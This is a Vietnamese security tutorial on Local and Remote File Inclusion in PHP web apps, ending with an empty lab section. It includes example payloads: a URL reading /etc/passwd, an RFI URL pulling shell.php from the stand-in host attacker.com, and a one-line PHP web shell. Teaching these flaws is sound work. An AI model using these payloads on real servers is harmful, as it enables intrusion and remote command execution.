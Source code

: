 # File Inclusion
>Tên tài liệu: File Inclusion<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 13/10/2024
>
# Mục Lục
[1. Khái niệm và các loại ](#p1) <br>
[2. Local File Inclusion (LFI)](#p2) <br>
[3. Remote File Inclusion (RFI)](#p3) <br>
[4. Lab ](#p4) <br>
# Nội dung
<a id="p1"></a>
## 1. Khái niệm và các loại
Inclusion là tính năng của ngôn ngữ lập trình giúp lập trình viên dễ dàng quản lý, tổ chức và tái sử dụng mã nguồn. <br>
File Inclusion là một lỗ hổng bảo mật trong ứng dụng web, xảy ra khi ứng dụng cho phép người dùng chỉ định tập tin (file) sẽ được nhúng vào hoặc thực thi bởi máy chủ. <br>
Có hai loại phổ biến: <br>
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI) <br>
Các hàm inclusion nhận tham số truyền vào là một đường dẫn tới File hoặc một URL tùy theo ngôn ngữ lập trình <br>
File Inclusion là biến thể của Path Traversal
<a id="p2"></a>
## 2. Local File Inclusion (LFI)
Local File Inclusion (LFI) là lỗ hổng cho phép kẻ tấn công đưa nội dung của một tập tin có sẵn trên máy chủ vào ứng dụng. Khi ứng dụng không kiểm tra kỹ đầu vào, hacker có thể lợi dụng để đọc các tập tin nhạy cảm như /etc/passwd trên hệ thống Linux, hoặc các file cấu hình chứa thông tin quan trọng. <br>
Kịch bản phổ biến là ứng dụng dùng hàm include, require, include_once hoặc require_once trong PHP để nhúng file theo đường dẫn mà người dùng cung cấp. Nếu không xử lý đầu vào cẩn thận, hacker có thể thay đổi đường dẫn này để truy cập tập tin nhạy cảm. <br>
Ví dụ: <br>
URL sau: <br>
```
http://testphp.com/index.php?page=about.php
```
Nếu không kiểm tra kỹ đầu vào page, hacker có thể chỉnh sửa URL để: <br>
```
http://testphp.com/index.php?page=/etc/passwd
```
<a id="p3"></a>
## 3. Remote File Inclusion (RFI)
Remote File Inclusion (RFI) là lỗ hổng cho phép hacker nhúng và thực thi một tập tin từ một máy chủ khác. Điều này có thể dẫn đến việc thực thi mã độc hại trên máy chủ đích. RFI nguy hiểm hơn LFI vì nó cho phép hacker đưa mã độc vào từ xa và có thể chiếm quyền điều khiển máy chủ. <br>
Lỗ hổng này thường xảy ra khi ứng dụng web chấp nhận URL từ xa làm tham số và sử dụng hàm `include` hoặc `require` mà không kiểm tra kỹ đầu vào. <br>
Ví dụ : <br>
URL sau : <br>
```
http://testphp.com/index.php?page=http://attacker.com/shell.php
```
Tệp shell.php có nội dung : `<?php system($_GET['cmd']); ?>` <br>
Từ đó tệp shell.php sẽ được tải về và thực thi trên server.
Lưu ý: RFI sẽ không hoạt động nếu có prefix đứng trước tham số URL
```
<?php
$page = $_GET["page"];
include("module/".$page);
echo $content;
?>
```
Thì module/http://attacker.com/shell.php sẽ không hoạt động <br>
<a id="p4"></a>
## 4. Lab

